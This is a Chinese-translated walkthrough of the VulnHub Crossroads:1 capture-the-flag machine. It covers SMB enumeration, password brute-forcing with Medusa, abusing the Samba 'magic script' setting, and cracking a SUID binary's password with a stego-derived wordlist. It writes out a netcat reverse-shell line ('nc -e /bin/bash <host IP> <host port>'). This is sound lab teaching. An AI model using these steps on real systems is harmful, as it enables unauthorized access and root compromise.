# VulnHub —十字路口漫游

> 原文：<https://infosecwriteups.com/vulnhub-crossroads-walkthrough-ab67c827bc5c?source=collection_archive---------1----------------------->

VulnHub Crossroads:1 是一个简单的 boot2root CTF 挑战，你必须利用 SMB 并获得用户和 root 标志。

让我们从查找虚拟机的 IP 开始。



Crossroads 虚拟机的 IP

然后，让我们执行传统的 Nmap 扫描。



Nmap 扫描结果

你会遇到三个开放的港口，

*   端口 80 — HTTP
*   端口 139 —中小型企业
*   端口 445 —中小型企业

Web 应用不是一个侥幸的地方。我尝试了不同的攻击，如登录和注册表单上的 SQL 注入，但不成功。

网络应用

然后，我尝试暴力强制目录。



Gobuster 目录暴力破解

我可以找到两个隐藏的目录，

*   note.txt
*   robots.txt

我们来看看 robots.txt。



robots.txt

它指出了另一个名为 crossroads.png 的隐藏文件，所以让我们来看看这个图像。



crossroads.png

好像没什么用。所以我们来看看 note.txt。



note.txt

它讲述了三种蓝调。我不知道那是什么意思，所以我谷歌了一下，找到了以下内容。



三首布鲁斯之王

这些名字可能是与我们的机器相关联的用户名的暗示。

由于 web 应用程序没有用，让我们用 enum4linux 列举 SMB 共享。

enum4linux

我们可以找到蓝调三大天王之一；阿尔伯特:)



用户艾伯特

然后我试着破解了艾伯特的 SMB share 的密码。

使用九头蛇是一场噩梦，因为预计时间约为 40 小时。所以，我用了美杜莎。



用美杜莎破解艾伯特的密码

不到一分钟，我就找到了艾伯特的密码，名字是**布拉德利 1** 。



破解了艾伯特的密码

因此，让我们继续使用上述凭据登录 SMB 共享。



中小企业股份 os albert

我们可以看到 3 个文件和一个名为 **smbshare** 的目录。

让我们使用 **get** 命令下载这 3 个文件。



下载文件

将目录更改为 **smbshare** 并下载 **smb.conf** 文件。



从 smbshare 目录下载 smb.conf

现在我们有 4 个文件，

*   crossroads.png
*   贝鲁特
*   user.txt
*   中小企业网

让我们逐一检查下载的内容。

**user.txt** 包含第一个标志。



用户标志

当我们检查 **smb.conf** 文件时，我们可以看到以下条目。



中小企业网

有一个条目叫做**magic script = smsubscript . sh**。

我们可以创建一个名为**smubscript**的 shell 脚本，这样我们就可以反向连接到机器。

只需在 shell 脚本中添加 **nc -e /bin/bash <主机 IP > <主机端口>** ，执行时产生 netcat 反向 shell。



smsubscript . sh

授予所有用户对脚本的读、写、可执行权限。

然后设置一个 netcat 监听器。



netcat 监听器

神奇的脚本应该在 **smbshare 中执行。**那么，让我们以 albert 的身份登录 smbshare，并使用 **put** 命令上传我们的**smsubscript . sh**文件。



上传 smbscript.sh

看一下 netcat 监听器。我们得到了一个反壳。



反向外壳

我们需要使接收到的哑壳稳定。你可以按照这些[指令](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)去做。

如果我们看一下 SUID 的二进制文件，我们可以看到, **beroot** 文件可以作为 root 运行。



SUID 双星

让我们来看看 beroot 文件。



beroot 文件

我们可以清楚地了解到，它可以用来成为 root。那么，让我们继续运行这个文件。



运行 beroot 文件

它要求一个我们不知道的密码。



beroot 要求输入密码

到目前为止，我们已经检查了 SMB 共享下载内容中的 3 个文件。只有图像**crossroads.png**留下来看。由于这是一幅图像，可能涉及速记。我们可以使用像 stegoveritas 这样的工具来检查我们的图像。



stegoveritas

扫描后，它生成一个名为**的新目录结果。**里面还有一个叫做 **keepers** 的目录。如果我们看一下第一个文件，我们会发现它是一个单词列表。我们可以尝试破解 beroot 文件的密码。



单词表

让我们将它作为 **passwrds.txt** 复制到主目录。



cat passwrds.txt

让我们使用 python 创建一个简单的 http 服务器，以便将我们的文件上传到受害者。



创建简单的 http 服务器

我们可以使用受害者中的 **wget** 来上传 passwrds.txt 文件。

wget http:// <host ip="">/</host>

现在，我们可以编写一个简单的 bash 脚本来遍历我们的密码列表，并暴力破解 beroot 的密码。



暴力破解的 bash 脚本

向脚本(chmod +x)提供执行权限并执行它。

一旦完成，我们会得到另一个名为 **rootcreds** 的文件。



根证书

我们可以通过查看该文件来获取 root 用户的凭据。



根凭据

让我们继续将用户更改为 root，并提供上述凭据。



成为根

瞧啊。！！我们是根！！！

我们可以从 root 的主目录中获得第二个标志。



根标志

我希望你喜欢这个挑战，也学到了一些东西。通过 [LinkedIn](https://www.linkedin.com/in/ravishanka-silva-a632351a0/) 联系我。

祝你在前方捕捉旗帜时好运！！！